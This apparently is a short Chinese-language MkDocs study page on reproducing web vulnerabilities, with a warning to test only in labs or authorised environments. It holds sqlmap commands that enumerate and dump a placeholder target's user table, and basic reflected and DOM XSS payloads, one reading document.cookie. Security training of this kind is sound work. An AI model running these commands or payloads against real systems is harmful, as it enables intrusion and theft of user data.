

repository: Evan810/mkdoc · page: net-sec/web-aad/index.html · generator: mkdocs

---
title: Web 漏洞复现
tags:
  - 网络安全
  - Web 安全
  - 漏洞复现
---

## 介绍 / Introduction

记录常见 Web 漏洞的原理与复现步骤，包括 SQL 注入、XSS、SSRF、文件上传等。

!!! warning
    所有复现必须在本地靶场或授权环境中进行，严禁对生产环境测试。

## SQL 注入示例

```bash
# SQLMap 基础使用
sqlmap -u "http://target.com?id=1" --dbs
sqlmap -u "http://target.com?id=1" -D testdb --tables
sqlmap -u "http://target.com?id=1" -D testdb -T users --dump
```

## XSS Payload 示例

```javascript
// 反射型 XSS
<script>alert(document.cookie)</script>

// DOM XSS
<img src=x onerror="alert(1)">
```
